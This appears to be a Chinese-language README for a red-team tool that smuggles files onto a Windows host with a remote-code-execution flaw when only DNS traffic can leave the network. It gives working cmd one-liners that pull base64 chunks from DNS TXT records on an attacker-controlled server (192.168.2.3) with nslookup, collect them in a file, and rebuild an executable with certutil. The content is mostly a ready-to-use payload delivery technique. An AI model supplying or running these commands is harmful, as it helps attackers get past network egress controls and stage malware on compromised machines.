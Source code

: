 # 背景原理
背景：Windows下存在RCE漏洞，只允许DNS协议出网的时候，如何利用dns协议传输文件到Windows主机上

原理：利用dns的TXT记录，先把要写入的文件base64编码，然后把文件先切割为32kb的数组列表: L1, L2....，再将每个元素切割为长度为254的列表，将此作为txt记录返回。

## 0x1. 文件托管
```bash
python dnsWrite.py <calc.exe>
```

## 0x2. 写入文件
利用域名的Txt解析，从baidu0.com开始解析：`baidu0.com、baidu1.com ...`，客户端输入以下命令，一直到服务端出现Done, Press Ctrl + C to Exit，表示发送完毕。客户端再利用`certutil -decode decode.txt calc.exe`转码为exe文件:

```cmd
cmd /v:on /Q /c "set a= && set b=  && for /f "tokens=*" %i in ('nslookup -qt^=TXT baidu0.com 192.168.2.3 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >> decode.txt 

cmd /v:on /Q /c "set a= && set b=  && for /f "tokens=*" %i in ('nslookup -qt^=TXT baidu1.com 192.168.2.3 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >> decode.txt 

...
```

如果文件特别大，可以再加一层for循环，下面是循环了20次请求域名的解析，注意观察服务端是否发送完成，当服务端发送完成就可以断开了，由于循环还在继续:
```cmd
cmd /v:on /Q /c "for /l %i in (0,1,20) do (set a= && set b= && for /f "tokens=*" %j in ('nslookup -qt^=TXT baidu%i.com 192.168.2.3 ^| findstr "exec"') do (set a=%j && echo !a:~5,-2! >> decode.txt))"
```

脚本已经计算好了循环次数，客户端直接使用即可:

![image](https://user-images.githubusercontent.com/2935865/229475619-7102660f-af8d-4d4f-a7a2-dcf1c88a3374.png)


## 0x3. 参考文章
* [远程下载的通用替代方案 ｜ 红队攻防](https://mp.weixin.qq.com/s/Z1zp7klk--uQ1OnzljNESw)

